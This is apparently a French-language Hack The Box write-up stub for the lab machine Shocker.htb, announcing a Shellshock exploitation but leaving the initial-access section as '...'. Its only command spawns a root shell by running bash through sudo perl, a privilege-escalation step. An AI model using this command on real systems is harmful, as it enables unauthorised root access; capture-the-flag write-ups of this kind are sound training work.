 ```yaml
---
title: "Shocker.htb"
date: 2025-08-05
draft: false
tags: ["htb", "shellshock", "easy"]
---
```


![](image.jpg)

<br>

![](difficulty.jpg)

<br>

Ce writeup détaille l'exploitation de la vulnérabilité **Shellshock** sur la machine *Shocker.htb* (Hack The Box).

## Accès initial

...

## Exploitation

```bash
sudo /usr/bin/perl -e 'exec "/bin/bash";'
